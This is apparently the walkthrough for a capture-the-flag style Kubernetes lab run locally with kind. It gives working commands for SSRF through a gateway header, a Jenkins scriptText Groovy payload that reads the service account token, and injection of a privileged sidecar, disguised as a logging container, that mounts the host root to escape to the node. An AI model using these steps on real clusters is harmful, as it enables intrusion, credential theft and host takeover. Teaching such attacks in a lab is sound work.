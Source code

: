 # Getting Setup

## Start the cluster
```
kind delete cluster
./setup.sh
```

## Check the deployment status
```
kubectl get pods
```

You can hit the externally facing API gateway hitting `http://localhost:31337/api`.

For example `curl http://localhost:31337/api`.

# Exploit an SSRF flaw in the gateway
*ps there is actually another way to gain access to the jenkins instance. see if you can figure it out*

## Discover the HTTP headers that trigger a different behavior from the gateway

You can do this with pretty much any tool you like, but we're going to use ffuf because it's 1337 and fast. This command will fuzz for headers using a list from seclists. It will match against some interesting response status codes. Additionally, it will save the request-response pairs to the directory `req_res` so that you can examine them for interesting response bodies.

```
ffuf -w /opt/samurai/wordlists/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers:FUZZ -u http://localhost:31337/api -H "FUZZ: foo" -c -mc 200,403,500,503 -od req_res
```

You can also proxy the traffic from ffuf through BurpSuite if you want using `-x 127.0.0.1:8080`

When we discover a HTTP header that gives us an interesting response such as a 500, we can then fuzz the value of said header.

```
ffuf -w k8s-labs/payloads/wordlist -u http://localhost:31337/api -H "X-Original-Host: http://FUZZ:8080" -c -od req_res
```

For this one we are looking for indications that the backend is trying to resolve the values to IP addresses. So, for example if we get an error message that seems to indicate that it failed to resolve, then we know that value is not a viable SSRF target. However, if a value causes a timeout, or possibly a different error, then we can guess that it might likely be a viable target, for which we would need to then try to guess a port number for.

## Hit the jenkins service through SSRF
```
curl http://localhost:31337/api -H "X-Original-Host: http://jenkinssvc:8080"
```

We should see a resonse which is the Jenkins dashboard comeback. Indicating that we were able to hit a internal Jenkins service via the API gateway SSRF.

# Exploit the access to Jenkins
To do this we can use the raw HTTP request which is found in the file `k8s-labs/payloads/jenkinsexploit.http`. This is just a convenience to exploit the `scriptText` endpoint which Jenkins has enabled by default. This particular payload will exfiltrate the Jenkins containers kubernetes secret for us, which we can then use with `kubectl` to further expand our access to the cluster.

```
curl -XPOST http://localhost:31337/api -H 'X-Original-Host: http://jenkinssvc:8080/scriptText?script=def+command+%3d+"cat+/var/run/secrets/kubernetes.io/serviceaccount/token"%3bdef+proc+%3d+command.execute()%3bproc.waitFor()%3bprintln+"${proc.in.text}"%3b%2f%2f'
```

You could also use a different Groovy payload here, such as a reverse shell to gain a shell into the Jenkins container, and go from there. Try it out!

## Use the stolen kubernetes service account token to do sidecar injection
This is pretty much the final step. We can check and see what the stolen service account token allows us to do, and the abuse it's capabilities to inject a sneaky sidecar container that allows us to escape to the host node.

Set the token as an env var in your terminal.
```
export JWT="<jwt value here>"
```

Check it's capabilities.
```
kubectl --token=$JWT auth can-i --list
```

Inject a side-car container to the jenkins service which looks like a logging sidecar.

```
kubectl --token=$JWT edit deployment jenkinssvc
```

We want to edit the deployment to look like the deployment spec below.
The regions that are updates are surrouned with the following string

```
# ===================================
```

### Modifed Spec

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  annotations:
    deployment.kubernetes.io/revision: "2"
  creationTimestamp: "2023-11-01T18:33:36Z"
  generation: 2
  labels:
    app: jenkinssvc
  name: jenkinssvc
  namespace: default
  resourceVersion: "12117"
  uid: 58eedc88-93f6-4030-9534-0e9b875abba4
spec:
  progressDeadlineSeconds: 600
  replicas: 1
  revisionHistoryLimit: 10
  selector:
    matchLabels:
      app: jenkinssvc
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      creationTimestamp: null
      labels:
        app: jenkinssvc
    spec:
      containers:
      # ===================================
      - command:
        - sleep
        - infinity
        image: k8s-labs-base:v1
        imagePullPolicy: IfNotPresent
        name: jenkins-logging-sidecar
        resources: {}
        securityContext:
          privileged: true
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:
        - mountPath: /mnt
          mountPropagation: Bidirectional
          name: log-volume
      # ===================================
      - env:
        - name: JAVA_OPTS
          value: -Djenkins.install.runSetupWizard=false
        image: k8s-labs-jenkinssvc:v1
        imagePullPolicy: IfNotPresent
        name: jenkinssvc
        ports:
        - containerPort: 8080
          name: http-port
          protocol: TCP
        - containerPort: 50000
          name: jnlp-port
          protocol: TCP
        resources: {}
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:
        - mountPath: /var/jenkins_home
          name: jenkins-home
      dnsPolicy: ClusterFirst
      restartPolicy: Always
      schedulerName: default-scheduler
      securityContext: {}
      serviceAccount: deploy-manager-sa
      serviceAccountName: deploy-manager-sa
      terminationGracePeriodSeconds: 30
      volumes:
      # ===================================
      - hostPath:
          path: /
          type: ""
        name: log-volume
      # ===================================
      - emptyDir: {}
        name: jenkins-home
status:
  availableReplicas: 1
  conditions:
  - lastTransitionTime: "2023-11-01T18:33:39Z"
    lastUpdateTime: "2023-11-01T18:33:39Z"
    message: Deployment has minimum availability.
    reason: MinimumReplicasAvailable
    status: "True"
    type: Available
  - lastTransitionTime: "2023-11-01T18:33:36Z"
    lastUpdateTime: "2023-11-01T19:12:33Z"
    message: ReplicaSet "jenkinssvc-7ddbf46c7f" has successfully progressed.
    reason: NewReplicaSetAvailable
    status: "True"
    type: Progressing
  observedGeneration: 2
  readyReplicas: 1
  replicas: 1
  updatedReplicas: 1
```

Once that successfully updates we can exec into our new container.

```
kubectl --token=$JWT exec jenkinssvc-<hash_here> -it --container jenkins-logging-sidecar -- /bin/bash
```

Once we have the shell in the sidecar container we can modify the host node filesystem by writing a flag to `/mnt/flag.txt`. 

You can check the file was created on the node filesystem with the following command in another terminal.

```
docker exec kind-control-plane -- ls /flag.txt
```

## That's it!

You are of course free to tinker further, but that demonstrates the ability to compromise the host node using a bidirectional volume mount from within a sidecar container!
